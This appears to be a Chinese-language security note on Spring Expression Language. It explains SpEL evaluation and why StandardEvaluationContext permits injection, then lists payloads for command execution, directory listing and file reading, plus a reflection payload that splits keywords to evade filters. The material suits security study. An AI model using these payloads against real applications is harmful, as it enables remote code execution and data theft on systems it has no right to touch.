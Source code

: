 ### 代码中使用Expression
SpEL 在求表达式值时一般分为四步，其中第三步可选：首先构造一个解析器，其次解析器解析字符串表达式，在此构造上下文，最后根据上下文得到表达式运算后的值。
```java
// 创建解析器：SpEL 使用 ExpressionParser 接口表示解析器，提供 SpelExpressionParser 默认实现；
ExpressionParser parser = new SpelExpressionParser();
// 解析表达式：使用 ExpressionParser 的 parseExpression 来解析相应的表达式为 Expression 对象；
Expression expression = parser.parseExpression("('Hello' + ' world').concat(#end)");
// 构造上下文：准备比如变量定义等等表达式需要的上下文数据；
EvaluationContext context = new StandardEvaluationContext();
context.setVariable("end", "!");
//求值：通过 Expression 接口的 getValue 方法根据上下文获得表达式值；
System.out.println(expression.getValue(context));
// 输出： Hello world!
```
主要接口
* ExpressionParser 接口：表示解析器，默认实现是 org.springframework.expression.spel.standard 包中的 SpelExpressionParser 类，使用 parseExpression 方法将字符串表达式转换为 Expression 对象，对于 ParserContext 接口用于定义字符串表达式是不是模板，及模板开始与结束字符；
* EvaluationContext 接口：表示上下文环境，默认实现是 org.springframework.expression.spel.support 包中的 StandardEvaluationContext 类，使用 setRootObject 方法来设置根对象，使用 setVariable 方法来注册自定义变量，使用 registerFunction 来注册自定义函数等等。
* Expression 接口：表示表达式对象，默认实现是 org.springframework.expression.spel.standard 包中的 SpelExpression，提供 getValue 方法用于获取表达式值，提供 setValue 方法用于设置对象值。

# SpEL表达式注入漏洞
漏洞原理
SimpleEvaluationContext和StandardEvaluationContext是SpEL提供的两个EvaluationContext：
* SimpleEvaluationContext - 针对不需要SpEL语言语法的全部范围并且应该受到有意限制的表达式类别，公开SpEL语言特性和配置选项的子集。
* StandardEvaluationContext - 公开全套SpEL语言功能和配置选项。您可以使用它来指定默认的根对象并配置每个可用的评估相关策略。

SimpleEvaluationContext旨在仅支持SpEL语言语法的一个子集，不包括 Java类型引用、构造函数和bean引用；而StandardEvaluationContext是支持全部SpEL语法的。
由前面知道，SpEL表达式是可以操作类及其方法的，可以通过类类型表达式T(Type)来调用任意类方法。这是因为在不指定EvaluationContext的情况下默认采用的是StandardEvaluationContext，而它包含了SpEL的所有功能，在允许用户控制输入的情况下可以成功造成任意命令执行。

# SPEL Payload
## 常见payload
```java
${12*12}
T(Thread).sleep(10000)
T(java.lang.Runtime).getRuntime().exec("calc.exe")
// 同上，需要有上下文环境，EvaluationContext context = new StandardEvaluationContext("test");
#this.getClass().forName("java.lang.Runtime").getRuntime().exec("calc")
new java.lang.ProcessBuilder({'calc'}).start()
//列目录
#{T(java.util.Arrays).toString(T(java.nio.file.Files).list(T(java.nio.file.Paths).get('c:\\')).toArray())}
//读文件
new java.util.Scanner(new java.io.File('D:/logs/test.txt')).next()
#{T(org.apache.commons.io.FileUtils).readFileToString(new java.io.File("c:\\1.txt"))}
#{NEW java.util.Scanner(NEW java.io.BufferedReader(NEW java.io.FileReader(NEW java.io.File('/flag')))).nextLine()}
#{New java.io.BufferedReader(New java.io.FileReader("/flag")).readLine()}
#{T(java.nio.file.Files).lines(T(java.nio.file.Paths).get('c:\\1.txt')).findFirst().toString()}
#{T(java.nio.file.Files).readAllLines(T(java.nio.file.Paths).get("D:/logs/test.txt"))}
```
## 反射调用
```java
// 反射调用+字符串拼接，关键字拆分
T(String).getClass().forName('java.la'+'ng.Ru'+'ntime').getMethod('ex'+'ec',T(String[])).invoke(T(String).getClass().forName('java.la'+'ng.Ru'+'ntime').getMethod('getRu'+'ntime').invoke(T(String).getClass().forName('java.la'+'ng.Ru'+'ntime')), new String[]{'cmd.exe','/c','calc'})
```